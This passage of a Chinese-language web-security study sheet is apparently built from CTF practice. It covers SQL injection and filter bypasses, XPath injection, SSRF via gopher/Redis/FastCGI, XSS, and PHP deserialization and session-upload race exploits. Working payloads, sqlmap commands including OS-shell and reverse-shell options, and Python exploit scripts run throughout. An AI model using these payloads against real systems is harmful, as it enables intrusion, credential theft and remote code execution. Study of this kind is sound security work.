username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='test' and table_name='users'))))--+
爆数据值：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(id,0x3a,username,0x3a,password) from security.users)))) --+
1234567891011
```

- floor

```sql
database()+floor(rand(0)*2)作为主键，
由于floor(rand(0)*2)只会产生0和1两个数字，因此主键只可能为database()+1和database()+0
而count(*)不只是0和1，插入的时候会出现主键重复，更加详细的见参考文章

#爆数据名
username=1' and (select 1 from  (select count(*),concat(database(),floor(rand(0)*2))x from  information_schema.tables group by x)a) --+
123456
```

##### 堆叠注入

多条SQL语句一起执行，每条语句中间用`;`隔开

```sql
username：aaa
password:bbb';insert into users(id,username,password) values(60,'root','root')

# SQLMAP跑表单注入

--form模式 sqlmap.py -u "ip/login.php" --form
sqlmap.py -u "ip/login.php" --data "username=admin&password=123123" --flush-session
sqlmap.py -r c:\数据包.txt
12345678
```

##### 二次注入

将攻击语句写入数据库，等待其他功能从数据库中调用攻击语句，在其他功能语句拼接的过程中没有过滤严格从而造成SQL注入
 原理：

> 攻击者第一次提交恶意输入
> 恶意输入存入数据库
> 攻击者二次提交输入
> 为了响应第二次的输入程序查询数据库取出恶意输入构造SQL语句形成二次注入

贴个脚本自行领会

```python
import requests
import re
register_url = 'http://challenge-ea58755c8ac8a874.sandbox.ctfhub.com:10800/register.php'
login_url = 'http://challenge-ea58755c8ac8a874.sandbox.ctfhub.com:10800/login.php'


for i in range(1, 100):
    register_data = {
        'email': '111@1234.com%d' % i,
        'username': "0' + ascii(substr((select * from flag) from %d for 1)) + '0" % i,
        'password': 'admin'
    }
    res = requests.post(url=register_url, data=register_data)

    login_data = {
        'email': '111@1234.com%d' % i,
        'password': 'admin'
    }
    res_ = requests.post(url=login_url, data=login_data)
    code = re.search(r'<span class="user-name">\s*(\d*)\s*</span>', res_.text)
    print(chr(int(code.group(1))), end='')
123456789101112131415161718192021
```

##### 宽字节注入

宽字节注入是通过编码绕过后端代码的防御措施，列如正则过滤和转义函数转义。

客户端采用GBK编码格式，数据库对用户输入进行转义`\`,转义符`\`的编码为`%5c`，添加编码`%df`,组成`%df%5c`，此时编码表达为繁体字`連`，从而绕过转义符让`'`逃逸。

```sql
?id=1%df%27 and 1=1 --+?id=1%df%27 and 1=2 --+
?id=1%df%27 order by 4--+
?id=-1%df%27 union select 1,database(),user() --+  #注出数据库名和用户
?id=-1%df%27 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),database() --+ #查询表名
?id=-1%df%27 union select 1,(select group_concat(column_name) from information_schema.columns where table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,3)),database() --+ #查询users中的字段名
?id=-1%df%27 union select 1,(select username from users limit 7,1),(select password from users limit 7,1) --+ #取出一组数据,取出全部用group_concat(username,password)
```

##### Cookie注入

Cookie注入就是Cookie处存在注入点，后端对Cookie没有过滤

```sql
admin' and 1=1 --+  #显示数据admin' and 1=2 --+  #不显示数据
admin' order by 3 --+
ad' union select 1,database(),3  --+
ad' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3  --+
ad' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='emails'),3  --+
ad' union select 1,(select group_concat(id,email_id) from emails),3  --+
123456
```

##### base64注入

和其他注入一样，多了个base64编码解码

##### http头部注入

- X-Forwarded-for注入
- referer注入
- User-Agent注入

##### Sqlmap注入

```sql
/*union、报错、堆叠注入*/
sqlmap.py -u "ip/?id=1" --batch -D security -T users -C id,password,username -dump

#手注步骤和其他的一样，不过要把每次的payload进行一次base64编码，注意--+需要特殊符号编码
sqlmap.py -u "http://192.168.234.139/sqli-labs/Less-22/index.php" --cookie "uname=YWRtaW4=" --tamper base64encode.py --level 2  --batch --dbs

# cookie注入
sqlmap.py -u "http://192.168.234.139/sqli-labs/Less-20/index.php" --cookie "uname=admin" --level 2 --batch -D security -T emails -C id,email_id -dump

#http头部注入
# 在包数据对应位置标注*
sqlmap.py -r 1.txt -batch -dbs

--sql-shell    #执行指定sql命令
--file-read    #读取指定文件
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt)
--file-dest    #要写入的文件绝对路径
--os-cmd=id    #执行系统命令
--os-shell     #系统交互shell
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/)
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/
123456789101112131415161718192021
```



#### 绕过方式

##### 绕过空格过滤

```sql
注释符绕过空格,注释符/**/代替空格
select/**/user,passwd/**/from/**/usrs; 
采用括号代替空格,时间盲注用的多
sleep(ascii(mid(database()from(1)for(1)))=109)
%a0代替空格
sqlmap有绕过空格过滤脚本
引号前后可不加空格
1234567
```

##### 绕过引号过滤

```sql
十六进制绕过
select group_concat(table_name) from information_schema.tables where table_schema='security';

select group_concat(table_name) from information_schema.tables where table_schema=2773656375726974792720
1234
```

##### 绕过逗号过滤

```sql
from for绕过
select substr(database(),1,1);
select substr(database() from 1 for 1);
offset 绕过
select * from users limit 0,1;
select * from users limit 0 offset 1;
123456
```

##### 绕过比较符号`<`,`>`

使用函数`greatest()`、`least()`，`greatest()`返回最大值，`least()`返回最小值

```sql
select * from usrs where id=1 and ascii(substr(database(),0,1))>64;
select * from usrs where id=1 and greatest(ascii(substr(database(),0,1)),64)=64;
12
```

##### 绕过`=`过滤

like、rlike、regexp

##### 绕过注释符过滤

释符的作用是达到闭合的效果，使用代码闭合符号代替注释符号

##### 绕过关键字过滤

- 使用注释符绕过 （经过实验，会出现语法错误，预计使用情况应该是替换注释符为空）
  把要使用的查询语句放在`/**/`中，这样在一般的数据库是不会执行的，但是在mysql中内联注释中的语句会被执行。

  > //，-- , /**/, #, --+, – -, ;,%00,–a sel/**/ect * from users
  > un/**/ion select passwd from emils wh/**/ere limit 0,1;

- 绕过select过滤（配合堆叠注入）

  - handler

  ```sql
  handler table_name open ... //获取句柄
  handler ... read first //读取第一行数据 
  handler ... read next //读取下一行数据
  1';HANDLER \`1919810931114514\` OPEN;HANDLER \`1919810931114514\` READ FIRST;HANDLER \`1919810931114514\` CLOSE;#
  ```

  - 替换表到回显表

  ```sql
  1';
  rename table `words` to `words1`;
  rename table `1919810931114514` to `words`;
  alter table `words` change `flag` `id` 
  varchar(100) character set utf8 collate utf8_general_ci not NULL;#
  ```

- 大小写绕过

  > select * from users UnIon select passwd from emils WheRe limit 0,1;

- 内联注释绕过

  > select * from users /*!union*/ select passwd from emils /*!where*/ limit 0,1;
  > /*!version expr*/表示版本高于version，expr会执行

- 双写绕过

  > select * from users unUnionion select passwd from emils where limit 0,1;

- 预处理语句配合堆叠注入绕过

  > SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#

- 特殊编码绕过

  - 十六进制

  > select * from users where username = 0x7a68616e677961;

  - Ascii编码

  > select * from users where username = concat(char(49),char(49));

#### 参考文章

[SQL注入(巨详解) ](https://www.cnblogs.com/peace-and-romance/p/15890387.html#0x00-引言)
 [sql注入报错注入原理解析](https://blog.csdn.net/he_and/article/details/80455884?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-0-80455884-blog-118995223.pc_relevant_multi_platform_whitelistv3&spm=1001.2101.3001.4242.1&utm_relevant_index=3)

### 0x06 Xpath注入

#### 漏洞原理

XPath 注入利用 XPath 解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的 XPath 查询代码，以获得高权限信息的访问权。

XPath注入类似于SQL注入，当网站使用未经正确处理的用户输入查询 XML 数据时，可能发生 XPATH 注入，由于Xpath中数据不像SQL中有权限的概念，用户可通过提交恶意XPATH代码获取到完整xml文档数据

#### 攻击方式

##### Xpath和Xquery语法

- “nodename” – 选取nodename的所有子节点
- “/nodename” – 从根节点中选择
- “//nodename” – 从当前节点选择
- “…” – 选择当前节点的父节点
- “child::node()” – 选择当前节点的所有子节点
- “@” -选择属性
- "//user[position()=2] " 选择节点位置

##### 攻击思路

```xml
通用payload，类似于'or '1'='1
']|//*|//*['

从根节点开始判断
'or count(/)=1  or '1'='2     ###根节点数量为1
'or count(/*)=1 or '1'='2   ##根节点下只有一个子节点
判断根节点下的节点长度为8：
'or string-length(name(/*[1]))=8 or '1'='2
猜解根节点下的节点名称：
'or substring(name(/*[1]), 1, 1)='a'  or '1'='2
'or substring(name(/*[1]), 2, 1)='c'  or '1'='2
..
'or substring(name(/*[1]), 8, 1)='s'  or '1'='2
猜解出该节点名称为accounts
'or count(/accounts)=1  or '1'='2   /accounts节点数量为1
'or count(/accounts/user/*)>0 or '1'='2    /accounts下有两个节点

'or string-length(name(/accounts/*[1]))=4  or '1'='2    第一个子节点长度为4
猜解accounts下的节点名称
'or substring(name(/accounts/*[1]), 1, 1)='u'  or '1'='2
...
'or substring(name(/accounts/*[1]), 4, 1)='r'  or '1'='2
accounts下子节点名称为user
'or count(/accounts/user)=2  or '1'='2   
第一个user节点的子节点长度为8：
'or string-length(name(/accounts/user[position()=1]/*[1]))=8 or '1'='2
读取user节点的下子节点
'or substring(name(/accounts/user[position()=1]/*[1]), 1, 1)='u'  or '1'='2
'or substring(name(/accounts/user[position()=1]/*[1]), 2, 1)='s'  or '1'='2
...
'or substring(name(/accounts/user[position()=1]/*[1]), 8, 1)='e'  or '1'='2
12345678910111213141516171819202122232425262728293031
```

#### 参考文章

[XPATH注入学习](https://xz.aliyun.com/t/7791)

### 0X07 SSRF

#### 漏洞原理

SSRF(service side request forgery) 是一种由攻击者构造，由服务端发起请求的一个网络攻击，一般用来在外网探测或攻击内网服务
 

#### 常见漏洞形式

所有调外部资源的参数都有可能存在ssrf漏洞，例如：
 `http://127.0.0.1/pikachu/vul/ssrf/ssrf_curl.php?url=http://外部url/1.png`

1. 分享：通过URL地址分享网页内容

2. 转码服务

3. 在线翻译

4. 图片加载与下载：通过URL地址加载或下载图片

5. 图片、文章收藏功能

6. 未公开的api实现以及其他调用URL的功能

7. 从URL关键字中寻找

   ```
   `share`、`wap`、`url`、`link`、`src`、`source`、`target`、`u`、`3g`、`display`、`source`、`URlimage`、`URLdomain`
   ```

#### 相关函数

`file_get_contents()`：将整个文件或一个url所指向的文件读入一个字符串中。

`readfile()`：输出一个文件的内容

`fsockopen()`：打开一个网络连接或者一个Unix 套接字连接。

`curl_init()`：初始化一个新的会话，返回一个cURL句柄，供cur_lsetopt()，curl_exec()和curl_close() 函数使用

`fopen()`：打开一个文件文件或者 URL

#### 相关协议

`file协议`：在有回显的情况下，利用 file 协议可以读取任意文件的内容
 `dict协议`：泄露安装软件版本信息，查看端口，操作内网redis服务等
 `gopher协议`：gopher支持发出GET、POST请求。可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell
 `http/https协议`：探测内网主机存活

#### 利用方式

- 访问内网
  `http://challenge-54ab013865ee24e6.sandbox.ctfhub.com:10080/?url=http://127.0.0.1/flag.php`
- 伪协议读取文件
  `http://challenge-54ab013865ee24e6.sandbox.ctfhub.com:10080/?url=file:///var/www/html/flag.php`
- 端口扫描
  `http://challenge-54ab013865ee24e6.sandbox.ctfhub.com:10080/?url=http://127.0.0.1:8000`
  burpsuite抓包修改端口，使用intruder爆破
- Gohper
  gopher协议是一种信息查找系统，将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。
  使用方式：`gopher://ip:port/_METHOD /file HTTP/1.1 http-header&body`
  HTTP数据包需要进行URL编码，跳转多少次就进行多少次编码，第一次编码后需要将`%0A`换成`%0D%0A`
  注意url编码采用`encodeURIComponent`，流程为：
  `encodeURIComponent->%0A换成%0D%0A->在前面加gopher://127.0.0.1:80/_->encodeURIComponent`
- FastCGI协议
  HTTP是完成浏览器到中间件的请求，FastCGI则是从中间件到后端进行交换的协议，由PHP-FPM按照FastCGI的协议将TCP流解析成真正的数据.
  `PHP-FPM`拿到`FastCGI`的数据包后，进行解析，得到上述这些环境变量。然后，执行`SCRIPT_FILENAME`的值指向的PHP文件，也就是`/var/www/html/index.php`

```php
{
	    'GATEWAY_INTERFACE': 'FastCGI/1.0',
	    'REQUEST_METHOD': 'GET',
	    'SCRIPT_FILENAME': '/var/www/html/index.php',
	    'SCRIPT_NAME': '/index.php',
	    'QUERY_STRING': '?a=1&b=2',
	    'REQUEST_URI': '/index.php?a=1&b=2',
	    'DOCUMENT_ROOT': '/var/www/html',
	    'SERVER_SOFTWARE': 'php/fcgiclient',
	    'REMOTE_ADDR': '127.0.0.1',
	    'REMOTE_PORT': '12345',
	    'SERVER_ADDR': '127.0.0.1',
	    'SERVER_PORT': '80',
	    'SERVER_NAME': "localhost",
	    'SERVER_PROTOCOL': 'HTTP/1.1'
	}
```

- Nginx解析漏洞：
  PHP设置中的一个选项fix_pathinfo导致了这个漏洞
  正常来说，SCRIPT_FILENAME的值是一个不存在的文件/var/www/html/favicon.ico/.php
  PHP为了支持Path Info模式而创造了fix_pathinfo，在这个选项被打开的情况下，fpm会判断SCRIPT_FILENAME是否存在
  如果不存在则去掉最后一个/及以后的所有内容，再次判断文件是否存在，往次循环，直到文件存在。
  所以，第一次fpm发现/var/www/html/favicon.ico/.php不存在，则去掉/.php
  再判断/var/www/html/favicon.ico是否存在
  显然这个文件是存在的，于是被作为PHP文件执行，导致解析漏洞
  正确的解决方法有两种：
  1. Nginx端使用fastcgi_split_path_info将path info信息去除后，用tryfiles判断文件是否存在；
  2. 借助PHP-FPM的security.limit_extensions配置项，避免其他后缀文件被解析。
- PHP-FPM未授权访问漏洞
  PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信
  构造通信时，当然我们想要请求敏感文件，但是现在一般都有文件后缀限制，即你不能直接请求敏感文件夹（默认后缀一般是.php）

问题在于无法执行我们想要的文件，无法进行敏感操作，即使找到了未授权访问，那也只能执行服务器上的固有文件，不过既然能操作环境变量，就可以设置自动包含伪协议。设置`auto_prepend_file = php://input`且`allow_url_include = On`，结合文件上传php伪协议利用方式即可

[Gopherus](https://github.com/tarunkant/Gopherus)
 [exp地址](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

- Redis协议
  `Redis`在默认情况下，会绑定在`0.0.0.0:6379`。如果没有采取相关的安全策略，比如添加防火墙规则、避免其他非信任来源IP访问等，这样会使`Redis`服务完全暴露在公网上。如果在没有设置密码认证(一般为空)的情况下，会导致任意用户在访问目标服务器时，可以在未授权的情况下访问`Redis`以及读取`Redis`的数据。攻击者在未授权访问`Redis`的情况下，利用`Redis`自身的提供的`config`命令，可以进行文件的读写等操作。攻击者可以成功地将自己的ssh公钥写入到目标服务器的`/root/.ssh`文件夹下的`authotrized_keys`文件中，进而可以使用对应地私钥直接使用`ssh`服务登录目标服务器。

  ```
    攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以通过恶意执行flushall来清空所有数据
    攻击者可通过EVAL执行代码，或通过数据备份功能往磁盘写入后门文件
    如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害者服务器
    当然一般情况下，会避免其他非信任来源IP访问，所以通过gopher协议从服务器上进入redis，然后通过终端写马完成攻击。
  ```

  利用工具同上
   [Gopherus](https://github.com/tarunkant/Gopherus)

  #### 绕过方式

  ##### 进制转换

  ```
    ```php
    http://127.0.0.1  >>>  http://0177.0.0.1/
    http://127.0.0.1  >>>  http://2130706433/
    http://192.168.0.1  >>>  http://3232235521/
    http://192.168.1.1  >>>  http://3232235777/
  ```

  ```
  ##### 特殊字体绕过
  
  ```

    ```php
  ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
  ①②⑦.⓿.⓿.①  >>> 127.0.0.1
    ```

  ```
  ##### 特殊地址绕过
  
  ```

    ```php
  http://0/  # 0.0.0.0可以直接访问到本地
  http://127。0。0。1  # 绕过后端正则规则
  http://localhost/
    ```

  ```
  ##### 短链接绕过
  
  ```

    短链接变换通过检索短网址上的数据库链接，再跳转原（长）链接访问

  ```
  [短链接变换推荐链接](https://www.985.so/)
  
  ##### xip.io
  
  ```

    http://www.127.0.0.1.xip.io

  ```
  ##### DNS重绑定
  攻击流程为：
  ```

    1.服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
    2.对于获得的IP进行判断，发现为指定范围IP，则通过验证
    3.接下来服务器端对URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址
    4.由于已经绕过验证，所以服务器端返回访问内网资源的内容
  1234

  ```
  [工具链接](https://lock.cmpxchg8b.com/rebinder.html)
  ```

#### 参考文章

[SSRF - ctfhub -2](https://www.cnblogs.com/Sayo-/p/16041602.html)

### 0X08 XSS

#### 漏洞原理

XSS 攻击全称跨站脚本攻击，允许恶意 web 用户将代码植入到 web 网站里面，供给其它用户访问，当用户访问到有恶意代码的网页就会产生 xss 攻击

#### 攻击方式

- 判断是否存在XSS漏洞
  `<script>alert(1)</script>`
- 利用XSS平台接收cookie
  [XSS平台](https://xss.yt/)

#### 绕过方式

XSS平台有对应的绕过waf过滤的脚本写法，可参考

### 0X09 序列化与反序列化漏洞

#### PHP反序列化漏洞

##### Wakeup反序列化漏洞

###### 漏洞原理

PHP反序列化漏洞：如果一个类定义了__wakup()和__destruct()，则该类的实例被反序列化时，会自动调用__wakeup(), 生命周期结束时，则调用__desturct()。

当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过__wakeup()。

###### 利用方式

1. 先进行序列化操作

2. 得到序列化字符串，将Object数+1

   ps：private、protected 类型的变量，序列化之后字符串首尾都会加上%00，字符串长度也比实际长度大 2，如果将序列化结果复制到在线的 base64  网站进行编码可能就会丢掉空白字符，建议直接在php 代码里进行编码；若对%过滤，则可将S大写，然后使用16进制编码绕过

##### 字符逃逸

###### 漏洞原理

反序列化的过程就是碰到`;}`与最前面的`{`配对后，便停止反序列化

```
O:6:"people":3:{s:4:"name";s:3:"Tom";s:3:"sex";s:3:"boy";s:3:"age";s:2:"12";}
O:6:"people":3:{s:4:"name";s:3:"Tom";s:3:"sex";s:3:"boy";s:3:"age";s:2:"12";}
```

###### 利用方式

- 字符增多
  在题目中，往往对一些关键字会进行一些过滤，使用的手段通常替换关键字，使得一些关键字增多，简单认识一下，正常序列化查看结果
  

这里，我们对序列化后的字符串进行了替换，使得后来的反序列化报错，那我们就需要在Tom这里面的字符串做手脚，在username之后只有一个age，所以在双引号里面可以构造我需要的username之后参数的值，这里修改age的值，我们这里将Tom替换为`Tom";s:3:"age";s:2:"35";}`然后进行反序列化

可以看到构造出来的序列化字符串长度为25，而在上面的反序列化过程中，他会将一个`o`变成两个`oo`，那么得到的应该就是`s:25:"Toom"`我们要做的就是让这个双引号里面的字符串在过滤替换之后真的有描述的这么长，让他不要报错，再配合反序列化的特点（反序列化的过程碰到`;}`与最前面的`{`配对后，便停止反序列化）闭合后忽略后面的`age:13`的字符串成功使得age被修改为35

###### 字符减少

原理是一样的，差别在于我们需要构造额外的数据让它“吞噬”
 
 这里的错误是因为`s:5:"zddo"`长度不够，他向后吞噬了一个双引号，导致反序列化格式错误，从而报错
 选中部分就是我们构造出来，他需要吞噬的代码`s:22:""`这个双引号里面我们还有操作的空间，用来补齐字符串长度，接着就是计算我们自己所需要吃掉的字符串长度为18，根据过滤，他是将两个`o`变成一个，也就是每吃掉一个字符，就需要有一个`oo`，那我们需要吃掉的是18个长度，那么我们就需要18个`oo`，在吞噬结束之后我们的格式又恢复正确，使得真正的字符`s:3:"age";s:2:"35";`逃逸出来

###### 参考文章

[细说php反序列化字符逃逸](https://blog.csdn.net/qq_38154820/article/details/109523841)

##### session反序列化漏洞

###### 漏洞原理

php提供以下三种处理器来处理序列化和反序列化问题

| 处理器                    | 对应的存储格式                                               |
| ------------------------- | ------------------------------------------------------------ |
| php                       | 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值          |
| php_binary                | 键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值 |
| php_serialize(php>=5.5.4) | 经过 serialize() 函数反序列处理的数组                        |

当序列化和反序列化使用的处理相同时并不会出现什么问题，但是当序列化采用php_serialize处理而反序列化采用php处理的时候，若用户注入数据`a=|O:4:"test":0:{}`，那么这时候session中的内容是`a:1:{s:1:"a";s:16:"|O:4:"test":0:{}";}`，经php反序列化后，`a:1:{s:1:"a";s:16:"`被看成是键名，test对象被实例化

###### 攻击方式

分为两种情况：有可控参数和无可控参数
 有可控参数：

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['a'] = $_GET['a'];
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon{
    var $hi;
    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi;
    }
}
```

这里只需传入`?a=|O:5:"lemon":1:{s:2:"hi";s:5:"lemon";}`，就会执行代码输出hilemon

无可控参数的情况我们该如何进行注入呢？这时候可以通过利用`PHP_SESSION_UPLOAD_PROGRESS`上传文件，其中利用文件名可控，从而构造恶意序列化语句并写入session文件。
 利用条件：`session.upload_progress.enabled = on`
 表示upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中
 还有几个关键的环境变量：
 `session.upload_progress.prefix = "upload_progress_"`
 `session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"`
 name当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；
 prefix+name将表示为session中的键名
 `session.upload_progress.cleanup = on`
 cleanup=on表示当文件上传结束后，php将会立即清空对应session文件中的内容，如果开启了cleanup，则需要利用条件竞争来进行rce
 贴一个大佬的脚本

```python
#coding=utf-8
import requests
import threading
import io
import sys

def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
            print('success!')
            

if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in xrange(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()
```

或者也可以自己手动上传文件，然后抓包修改

```html
<form action="http://web.jarvisoj.com:32784/" method="POST" enctype="multipart/form-data">
        <input type="hidden" name='PHP_SESSION_UPLOAD_PROGRESS' value="123" />
        <input type="file" name="file" />
        <input type="submit" />
</form>
```

抓包后修改filename（伪造`PHP_SESSION_UPLOAD_PROGRESS`的值会失败，值中一旦出现`|`，原因不详）
 

##### Session文件包含（利用upload_progress）

###### 漏洞原理

当发现一个文件包含漏洞但却找不到一个可以包含的恶意文件的时候，可以利用`session.upload_progress`将恶意代码写入session文件，然后包含session文件执行恶意代码
 利用条件：
 存在文件包含漏洞
 `session_start()`或者`session.auto_start=On`
 `session.use_strict_mode=0`：此时用户可以自定义Session ID，产生的session文件名为sess_SSID
 若服务器开启了`session.upload_progress.cleanup=on`导致文件上传后session文件内容立即被清空，则需要配合条件竞争进行RCE
 session文件存放路径，可以尝试默认路径
 具有读取和写入session文件的权限

###### 攻击方式

贴一个脚本，也可以用burp抓包使用Intruder对SSID进行爆破

```python
#coding=utf-8

import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        # 大文件增加被清空需要的时间，增大竞争窗口期
        f = io.BytesIO(b'a' * 1024 * 50)
